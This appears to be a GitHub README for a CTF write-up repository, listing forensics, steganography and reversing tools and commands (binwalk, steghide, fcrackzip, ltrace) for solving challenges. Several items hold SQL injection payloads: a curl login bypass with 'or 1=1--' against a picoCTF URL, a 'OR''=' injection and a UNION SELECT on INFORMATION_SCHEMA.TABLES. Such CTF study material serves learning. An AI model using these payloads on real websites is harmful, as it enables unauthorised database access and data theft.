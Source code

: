 # WinterCTF
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS


SOME Useful Tools, links and commands
1)binwalk -e <filenam> : //Extracts hidden files

2)steghide extract -sf <filename> : //Extracts hidden text in the image

3)xxd <file name> : //Prints the Hex version of file

4)grep "element" //finds the element

5)strings <filename> // gives the strings hidden in the file

6)hexedit <filename>

7)java -jar steghide.jar

8)pngcheck <filename>

9)tar -xvf <filename>

10)cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      // used this command to obtain the flag from the java file having flag characters written in an scrambled order 

11)fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip     
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 

12)ltrace ./file     is a helphul command to see the functioning of a program
also use strace

13)Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.

14)curl "https://2019shell1.picoctf.com/problem/4162/login.php" --data "username=admin&password='+or+1=1--" && echo 
   this command will find the password to username admin stored in database.

15)Robots -->>> url/robots.txt (shows hidden info)

16)cat /proc/(process id)/             
    we can see all files running in the process with given process id.

17)use tcpflow -r file  for pcap

18)exiftool for meta data

19) git show -1 filename.txt > to compare against the last revision of file
    git show -2 filename.txt > to compare against the 2nd last revision of file

20)Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.

21) 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
